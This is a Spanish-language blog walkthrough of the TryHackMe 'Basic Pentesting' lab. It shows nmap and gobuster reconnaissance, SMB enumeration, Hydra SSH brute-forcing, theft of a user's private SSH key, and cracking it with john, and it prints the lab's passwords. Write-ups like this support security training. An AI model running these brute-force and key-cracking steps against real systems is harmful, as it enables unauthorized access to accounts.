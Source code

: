 ```yaml
---
layout:   post
title:    "Walkthrough Basic Pentesting."
subtitle: "Starting-Point"
category:   THM
tags:      [Easy,Linux,SMB,brute-forcing,Hydra,Enumeration,SSH,id_rsa,Default-Credentials,Walkthrough,Starting-Point]
---
```

![list](/assets/img/basic_pentesting/moMbBki.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.202.116 -oG allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p22,80,139,445,8009,8080 10.10.202.116 -oN target -Pn
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-48-43.png){:.lead width="800" height="100" loading="lazy"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Investigamos el servicio http que corre en el pueto 80 ,vemos que podemos loogearnos ,haciendo 

pass-desing, no logramos nada y aunque nos de unas credenciales legibles depues de cancelar no 

son validas son: user `tomcat` password `s3cret`.

![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-50-58.png){:.lead width="800" height="100" loading="lazy"}

Hacemos ctrl + u para ispeccionar la pagina, econtrandonos con una pista.
{:.note}

Fuzzeamos la direccion IP para enumerar posibles direcctorios y nos encontramos el directorio `/development/`.

```bash
gobuster dir -u http://10.10.202.116 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```
![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-52-25.png){:.lead width="800" height="100" loading="lazy"}

Si nos movemos a esa ruta en el navegador nos encontramos dos archivos uno con la version y 

otra que nos detalla que las pass es facil de crackear.

![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-56-00.png){:.lead width="800" height="100" loading="lazy"}

El archivo dev.txt contiene la version.
{:.note}

![list](/assets/img/basic_pentesting/Kali-2022-09-18-17-56-05.png){:.lead width="800" height="100" loading="lazy"}

El archivo j.txt nos dice que facilmente crakeable.
{:.note}

***
Con cracmapecxec verificamos si el smb esta firmado y nos arroja alguna informacion,con 

smbclient enumeramos los shares, por lo que se ve hay dos y presumiblemente el que dice 

anonymous se pueda entrar como ese usuario, ademas si agregamos el parametro -R podemos 

ver el recurso de forma recursiva encontratdonos un archivo `staff.txt`.

![list](/assets/img/basic_pentesting/Kali-2022-09-18-18-04-12.png){:.lead width="800" height="100" loading="lazy"}

{:.note title="Attention"}
El archivo staff solo contiene una conversacion ente jan y kay que tambien aparecen esa 

siglas en los archivos.txt anteriores por lo que deducimos que son usuarios del sistema a 

esta conclusion tambien podemos llegar si usamos la herramienta enum4linux.

```bash
enum4linux -a 10.10.202.116
```

***
## Explotacion

Con los usuarios enumerados podemos probar utilizar Hydra pa crackear las contraseñas con 

el siguiente comando.

```bash
hydra -l jan -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.202.116
```

![list](/assets/img/basic_pentesting/Kali-2022-09-18-20-30-56.png){:.lead width="800" height="100" loading="lazy"}

Podriamos probar lo mismo para kay pero jan es vulnerable.
{:.note}

La pass es `armando` por lo caul nos conectamos por ssh, dentro de la maquina nos movemos

buscando las flags o archivos de interes no encontramos con un `pass.bak` que es simplemente

la backup de la pass pero a la cual no tenemos permisos de lectura por lo que siempre es 

bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar 

de privilegios.

## Escalacion de privilegios 

LimEnum dice que en la carpeta oculta .ssh hay claves privadas expuestas por lo cual las 

copiaremos a la maquina atacante y trataremos de crackearlas.

```bash
scp jan@10.10.120.64:/home/kay/.ssh/id_rsa .
```

{:.note}
Podriamos simplemete copiar y pegar pero a veces si ho hay una sell interactiva en la victima 

se puede coromper la copia, se puede hacer de cualquier forma...


Le damos permisos `chmod 600 id_rsa` y ssh2john pasamos la id_rsa a texto plano para a 

posterion con john crackearla.

```bash
ssh2john id_rsa > id_rsa.txt
```

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt id_rsa.txt
```
Luego nos conectamos por ssh y colocamos la contraseña que es `beeswax`.

```bash
ssh kay@10.10.202.116 -i id_rsa
```
![list](/assets/img/basic_pentesting/Kali-2022-09-18-21-12-41.png){:.lead width="800" height="100" loading="lazy"}


Nos va apedir la contraseña debmos pegar `beeswax`.
{:.note}

Ya lo ultimo sera localizar el archivo al que antes no teniamos permisos `cat pass.bak`.

![list](/assets/img/basic_pentesting/Kali-2022-09-18-21-17-45.png){:.lead width="800" height="100" loading="lazy"}


```bash
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
***
```bash
🎉 Felicitaciones ya has comprometido Basic Pentesting de Try Hack Me 🎉
```
{:.centered}
***
